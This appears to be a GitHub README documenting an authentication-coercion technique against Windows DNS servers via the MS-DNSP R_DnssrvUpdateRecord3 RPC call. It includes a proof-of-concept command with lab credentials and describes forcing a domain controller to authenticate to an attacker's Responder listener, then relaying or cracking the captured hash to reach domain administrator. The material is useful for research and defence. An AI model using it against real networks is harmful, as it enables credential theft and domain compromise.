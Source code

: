 # MS-DNSP - Remote call to R_DnssrvUpdateRecord3 (opnum 10)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvUpdateRecord3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/12279f8c-ddaf-47b8-8905-91d7635cdfea)

 - **Function operation number**: `10`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvUpdateRecord3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/12279f8c-ddaf-47b8-8905-91d7635cdfea) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvUpdateRecord3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvUpdateRecord3(
   [in]                        handle_t              hBindingHandle,
   [in]                        DWORD                 dwClientVersion,
   [in]                        DWORD                 dwSettingFlags,
   [in, unique, string]        LPCWSTR               pwszServerName,
   [in, unique, string]        LPCSTR                pszZone,
   [in, unique, string]        LPCWSTR               pwszZoneScope,
   [in, string]                LPCSTR                pszNodeName,
   [in, unique]                PDNS_RPC_RECORD       pAddRecord,
   [in, unique]                PDNS_RPC_RECORD       pDeleteRecord
 );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvUpdateRecord3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/12279f8c-ddaf-47b8-8905-91d7635cdfea